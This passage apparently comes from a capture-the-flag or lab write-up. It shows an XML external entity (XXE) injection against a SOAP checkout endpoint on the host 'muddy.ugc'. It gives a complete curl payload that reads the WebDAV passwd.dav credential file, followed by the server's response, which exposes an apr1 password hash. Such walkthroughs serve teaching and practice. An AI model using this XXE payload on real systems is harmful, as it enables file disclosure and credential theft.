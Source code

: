 ```
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
------------------------------------------------------------------------
```

I verified that the exploit works:

<figure><img src="../../../.gitbook/assets/image (3163).png" alt=""><figcaption></figcaption></figure>

Since we have LFI, we can locate the `passwd.dav` file to find the password required for `/webdav`. I found that it was within the `/var/www/html/webdav` file:

```
$ curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:helloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
